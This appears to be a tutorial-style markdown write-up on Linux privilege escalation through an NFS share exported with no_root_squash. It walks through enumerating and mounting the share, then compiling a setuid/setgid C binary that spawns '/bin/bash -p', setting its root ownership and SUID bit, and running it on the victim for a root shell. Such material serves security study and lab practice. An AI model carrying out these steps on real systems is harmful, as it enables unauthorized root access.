







# 🔐 Privilege Escalation: Network File Sharing (NFS)

Privilege escalation vectors are not limited to local access. Shared folders and remote services such as SSH, Telnet, and NFS can also lead to root access on the target system.

In some scenarios, combining multiple techniques may be required. For example, discovering a root SSH private key on the target machine and using it to log in via SSH instead of escalating the current user's privileges.

In this case, we will abuse a misconfigured NFS share with the `no_root_squash` option enabled.

---

## 🔍 Checking NFS Shares on the Victim Machine

On the target machine, check exported NFS shares using:

```bash
cat /etc/exports
```



---

## 🔍 Enumerating NFS Shares from the Attacker Machine

From the attacker machine, enumerate available NFS shares using:

```bash
showmount -e <TARGET_IP>
```



---

## 📌 Vulnerable Configuration

To exploit NFS for privilege escalation, the export must include:

```bash
no_root_squash
```

In this case, the following vulnerable shares were discovered:

```bash
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

The `no_root_squash` option allows files created by the root user on the attacker machine to remain owned by root on the target system.

---

## 🔗 Mounting the NFS Share

To mount the NFS share locally, use:

```bash
sudo mount -o rw <TARGET_IP>:<NFS_PATH> <LOCAL_PATH>
```

Example:

```bash
sudo mount -o rw 10.114.144.72:/tmp /tmp/nfs_mount
```



---

## ✍️ Creating the Exploit File

Create a file named `nfs.c` and add the following code:

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

int main()
{
        setuid(0);
        setgid(0);
        system("/bin/bash -p");
        return 0;
}
```




---

## ⚙️ Compiling the Exploit

Compile the exploit statically using:

```bash
gcc nfs.c -o nfs -static
```


---

## 🔧 Setting Root Ownership and SUID Permissions

Change the file owner to root and enable the SUID bit:

```bash
sudo chown root:root /tmp/nfs_mount/nfs
sudo chmod +s /tmp/nfs_mount/nfs
```



---

## 🚀 Executing the Exploit on the Victim Machine

On the victim machine, navigate to the mounted share and execute the file.

The binary now runs with root privileges because of the SUID bit and the `no_root_squash` configuration.



A root shell is obtained successfully.


